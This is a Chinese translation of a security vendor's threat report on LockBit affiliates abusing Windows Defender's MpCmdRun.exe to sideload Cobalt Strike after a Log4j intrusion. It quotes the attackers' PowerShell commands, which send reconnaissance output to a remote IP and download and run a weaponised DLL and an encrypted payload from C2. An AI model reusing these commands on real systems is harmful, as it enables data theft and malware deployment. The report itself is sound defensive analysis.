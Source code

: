 # 依靠 Windows Defender | LockBit 勒索软件通过 Microsoft 安全工具侧面加载 Cobalt Strike

2022年08月04日

原文链接：https://www.sentinelone.com/blog/living-off-windows-defender-lockbit-ransomware-sideloads-cobalt-strike-through-microsoft-security-tool/

最近，LockBit受到了相当多的关注。上周，SentinelLabs报道了LockBit 3.0（又名LockBit Black），描述了这种日益流行的RaaS的最新迭代如何实现一系列反分析和反调试例程。我们的研究很快被其他报告类似发现的人跟进。与此同时，早在4月份，SentinelLabs就报告了一家LockBit附属公司如何利用合法的VMware命令行工具VMwareXferlogs.exe来进行侧向加载Cobalt Strike。

在这篇文章中，将通过描述LockBit运营商或附属公司使用的另一种合法工具来追踪该事件，只是这次的问题工具属于安全工具：Windows Defender。在最近的调查中，我们发现黑客滥用Windows防御程序的命令行工具MpCmdRun.exe来解密和加载Cobalt Strike的有效载荷。


## 概述
最初的目标泄露是通过针对未修补的VMWare Horizon服务器的Log4j漏洞发生的。攻击者使用此处记录的PowerShell代码修改了安装web shell的应用程序的Blast Secure Gateway组件。

一旦获得初始访问权限，黑客就执行一系列枚举命令，并试图运行多种开发后工具，包括Meterpreter、PowerShell Empire和一种侧载Cobalt Strike的新方法。

特别是在尝试执行Cobalt Strike时，我们观察到一个新的合法工具用于侧加载恶意DLL，它可以解密负载。

![image](https://user-images.githubusercontent.com/86941613/186966965-3a501bac-738b-49f5-a7cc-9622d62db91b.png)

以前观察到的通过删除EDR/EPP的用户地挂钩、Windows事件跟踪和反恶意软件扫描接口来规避防御的技术也被观察到。

## 攻击链

![image](https://user-images.githubusercontent.com/86941613/186967030-23171b7b-f356-46ff-bf53-eb830413bef0.png)

一旦攻击者通过Log4j漏洞获得初始访问权限，侦察就开始使用PowerShell执行命令，并通过对IP的POST base64编码请求过滤命令输出。侦察活动示例如下：
```shell
powershell -c curl -uri http://139.180.184[.]147:80 -met POST -Body ([System.Convert]::ToBase64String(([System.Text.Encoding]::ASCII.GetBytes((whoami)))))powershell -c curl -uri http://139.180.184[.]147:80 -met POST -Body ([System.Convert]::ToBase64String(([System.Text.Encoding]::ASCII.GetBytes((nltest /domain_trusts)))))
```
一旦攻击者获得足够的权限，他们就会尝试下载并执行多个攻击后有效载荷。

攻击者从其控制的C2下载恶意DLL、加密负载和合法工具：
```
powershell -c Invoke-WebRequest -uri http://45.32.108[.]54:443/mpclient.dll -OutFile c:\windows\help\windows\mpclient.dll;Invoke-WebRequest -uri http://45.32.108[.]54:443/c0000015.log -OutFile c:\windows\help\windows\c0000015.log;Invoke-WebRequest -uri http://45.32.108[.]54:443/MpCmdRun.exe -OutFile c:\windows\help\windows\MpCmdRun.exe;c:\windows\help\windows\MpCmdRun.exe
```
值得注意的是，攻击者利用合法的Windows Defender命令行工具MpCmdRun.exe来解密和加载Cobalt Strike有效载荷。

![image](https://user-images.githubusercontent.com/86941613/186967254-9c7666e6-4bf8-4ff3-8017-96a2681130bf.png)

我们还注意到用于下载Cobalt Strike有效载荷的IP地址和用于执行侦察的IP地址之间的相关性：在下载Cobalt Strike后不久，攻击者试图执行并将输出发送到以139开头的IP，如下面两个片段所示。
```
powershell -c Invoke-WebRequest -uri http://45.32.108[.]54:443/glib-2.0.dll -OutFile c:\users\public\glib-2.0.dll;Invoke-WebRequest -uri http://45.32.108[.]54:443/c0000013.log -OutFile c:\users\public\c0000013.log;Invoke-WebRequest -uri http://45.32.108[.]54:443/VMwareXferlogs.exe -OutFile c:\users\public\VMwareXferlogs.exe;c:\users\public\VMwareXferlogs.exe
powershell -c curl -uri http://139.180.184[.]147:80 -met POST -Body ([System.Convert]::ToBase64String(([System.Text.Encoding]::ASCII.GetBytes((c:\users\public\VMwareXferlogs.exe)))))
```
与之前报告的 VMwareXferlogs.exe工具的侧加载相同的流程，MpCmd.exe被滥用来侧加载一个武器化的mpclient.dll，它从c0000015.log文件加载并解密Cobalt Strike信标。

因此，在攻击中使用的与使用Windows Defender命令行工具相关的组件有:

|文件名|描述|
| ----------- | ----------- |
|mpclient.dll|由MpCmdRun.exe加载的武器化DLL|
|MpCmdRun.exe|合法/签名的Microsoft Defender实用程序|
|C0000015.log|加密Cobalt Strike有效载荷|
